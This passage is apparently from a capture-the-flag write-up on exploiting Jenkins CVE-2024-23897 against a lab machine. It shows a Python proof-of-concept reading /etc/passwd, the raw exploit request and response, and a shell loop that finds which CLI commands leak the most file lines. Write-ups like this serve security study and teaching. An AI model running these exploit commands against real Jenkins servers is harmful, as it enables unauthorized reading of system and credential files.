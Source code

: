 The hostname is “0f52c222a4cc”.

#### Python POCs

There are Python POCs out there on GitHub that will do a similar thing. They don’t really add anything over the JAR file, so I prefer that method. They do work to make similar output:

```

oxdf@hacky$ python CVE-2024-23897/poc.py  http://10.10.11.10:8080/ /etc/passwd
REQ: b'\x00\x00\x00\x06\x00\x00\x04help\x00\x00\x00\x0e\x00\x00\x0c@/etc/passwd\x00\x00\x00\x05\x02\x00\x03GBK\x00\x00\x00\x07\x01\x00\x05zh_CN\x00\x00\x00\x00\x03'

RESPONSE: b'\x00\x00\x00\x00\x01\x08\n\x00\x00\x00K\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n\x00\x00\x00\x1e\x08java -jar jenkins-cli.jar help\x00\x00\x00\n\x08 [COMMAND]\x00\x00\x00\x01\x08\n\x00\x00\x00N\x08Lists all the available commands or a detailed description of single command.\n\x00\x00\x00J\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\n\x00\x00\x00\x04\x04\x00\x00\x00\x02'

```

#### Getting More Lines

In [this video](https://www.youtube.com/watch?v=toPJhfy-wvw), I explore the vulnerability, walk through exploitation with both the JAR and the Python POC, and show the path to finding a method to leak more lines:

By the end of the video, I’ve got this output:

```

oxdf@hacky$ cat commands | while read command; do echo "echo -n \"$command: \"; java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' $command '@/etc/passwd' 2>&1 | grep -oP ':\d+:\d+:' | sort -u | wc -l"; done > ipp.sh
oxdf@hacky$ bash ipp.sh
add-job-to-view: 1
build: 1
cancel-quiet-down: 1
clear-queue: 1
connect-node: 19
console: 1
copy-job: 1
create-credentials-by-xml: 1
create-credentials-domain-by-xml: 1
create-job: 1
create-node: 2
create-view: 2
declarative-linter: 1
delete-builds: 1
delete-credentials: 1
delete-credentials-domain: 1
delete-job: 19
delete-node: 19
delete-view: 19
disable-job: 1
disable-plugin: 0
disconnect-node: 19
enable-job: 1
enable-plugin: 0
get-credentials-as-xml: 1
get-credentials-domain-as-xml: 1
get-job: 1
get-node: 1
get-view: 1
groovy: 0
groovysh: 0
```